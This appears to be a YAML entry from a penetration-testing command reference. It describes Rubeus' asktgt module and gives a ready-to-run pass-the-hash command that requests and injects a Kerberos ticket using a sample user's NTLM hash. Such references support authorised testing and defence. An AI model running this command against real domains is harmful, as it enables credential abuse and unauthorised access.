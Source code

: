 ```yaml
---
description: |
  Rubeus' `asktgt` module uses a valid user's NTLM hash to request Kerberos tickets, in order to access any service or machine where that user has permissions.

  Command Reference:

  	Domain: test.local

  	Username: john

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  Rubeus.exe asktgt /domain:test.local /user:john /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/GhostPack/Rubeus
  - https://github.com/GhostPack/Rubeus#asktgt
---
```

